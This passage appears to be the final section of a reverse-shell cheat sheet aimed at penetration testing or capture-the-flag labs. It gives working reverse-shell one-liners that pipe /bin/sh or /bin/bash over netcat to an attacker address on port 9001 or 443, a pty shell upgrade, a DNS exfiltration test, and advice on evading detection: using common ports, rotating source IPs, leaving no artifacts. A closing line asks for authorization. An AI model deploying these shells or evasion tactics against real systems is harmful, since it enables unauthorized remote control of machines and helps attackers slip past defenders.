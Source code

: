 
## Troubleshooting

### Common Issues
```bash
# No netcat with -e flag
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9001 >/tmp/f

# Firewall blocking outbound connections
# Try different ports: 80, 443, 53, 25
nc 10.10.14.13 443 -e /bin/bash

# Limited shell environment
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# No interactive shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Testing Connectivity
```bash
# Test if target can reach your IP
ping 10.10.14.13

# Test specific port
telnet 10.10.14.13 9001
nc -nv 10.10.14.13 9001

# DNS exfiltration test
nslookup test.yourdomain.com
```

---

## Security Considerations

### Operational Security
- Use encrypted channels when possible (HTTPS, SSH tunnels)
- Avoid leaving artifacts on target systems
- Clean up uploaded files and temporary files
- Use staging servers to avoid direct connections

### Detection Evasion
- Use common ports (80, 443, 53) to blend with normal traffic
- Implement delays between connection attempts
- Use domain names instead of IP addresses when possible
- Rotate source IP addresses if available

---

*Always ensure you have proper authorization before deploying reverse shells on any target system. These techniques should only be used for legitimate security testing purposes.*
